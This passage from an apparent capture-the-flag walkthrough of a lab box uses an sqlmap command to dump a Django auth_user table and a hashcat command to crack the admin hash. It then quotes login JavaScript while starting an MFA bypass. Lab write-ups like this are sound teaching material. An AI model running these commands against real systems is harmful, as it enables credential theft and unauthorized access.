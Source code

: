 ```bash
[16:02:30] [INFO] retrieved: django_session
```
{: .nolineno }

Let’s dump the `auth_user` table:

`sqlmap -r req.raw -p "username" --dump --random-agent -D food -T auth_user`

This takes a long time to run, but eventually we get the table data returned. If you’re impatient, you can `ctrl-c` out of the script once you have the first username and password hash. If you're *really* impatient, try to predict what colum names you want and pull them individually. When I did the box, I used this time for coffee instead!

![Screenshot 2023-08-12 at 1.13.55 PM.png](/assets/crylo/Screenshot_2023-08-12_at_1.13.55_PM.png)

### Crack admin Password

We need to crack the Django admin password hash from the `auth_user` table. We have a hint from the THM question set that we’re going after the first user, which is good because the second user’s hash doesn’t match the expected Django format.

Copying the hash to `hash` and running `hashcat -m 10000 ./hash ./rockyou.txt` will get us the password for the first user. 


### Bypass MFA

Entering the username and password, we next get prompted for a pin code. Examinimg the javascript code in `validation.js` on this page we find the excryption routing for the pin, but we also see a hint that another page exists that might allow us to reset it.

```javascript
[...]
        var result = result.toString(CryptoJS.enc.Utf8);
        //////////var jsonResponse = JSON.parse(xhr.responseText);
        var jsonResponse = JSON.parse(result);
        //alert(xhr.responseText);
        //var jsonResponse = xhr.responseText;
        console.log(jsonResponse);
        if (jsonResponse.pin_set == "true") {
            //Redirect to 2fa
            //window.location.replace("/2fa");
            //document.getElementsByClassName
            document.getElementById("loginid").style.display = "none";
            document.getElementById("enterpinid").style.display = "flex";
        } else if (jsonResponse.pin_set == "false") {
            //redirect to set pin
            //window.location.replace("/set-pin");
            document.getElementById("loginid").style.display = "none";
            document.getElementById("createpinid").style.display = "flex";
        } else {
            // Invalid username/ password
            alert(jsonResponse.reason);
        }
    }
    xhr.open(oFormElement.method, oFormElement.action, true);
```